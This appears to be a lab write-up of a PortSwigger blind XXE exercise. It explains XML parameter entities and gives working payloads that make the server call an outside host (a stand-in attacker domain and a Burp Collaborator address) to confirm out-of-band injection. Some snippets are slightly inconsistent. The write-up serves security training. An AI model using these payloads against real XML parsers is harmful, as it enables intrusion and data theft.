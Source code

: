 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aa4f23ae-5538-4b0d-ad81-5c3fd061b2cf)

## Overview :

 **Sometimes, XXE attacks using regular entities are blocked**, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to **use XML parameter entities instead**. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

 ```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Solution :


Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/1.1
Host: 0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Cookie: session=gwBsRlQTEvY287RWKXKNzyrlafd6MhsP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we will declare a DOCTYPE eith parameterized entitites (**%**) which contains the url of our collaborator server -`<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %xxe; ]>` & in that we can reference the parameterized entitiy using - `%ext;`

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#basic-blind-xxe

**Payload -**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://ibxj9hi7igb643lzee9r5ghu7ldc11.oastify.com"> %xxe; ]> 
 <productId>% 1</productId>
 <storeId>1</storeId>
</stockCheck>
```

"XML parsing error"

In the response it says that - `XML parsing error` but it means that the xml parser indeed parsed the xml code and made an outbound request to our collaborator server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e7d2d8f7-c3fe-416b-82a4-102e382a30a9)

And we've solved the lab !

















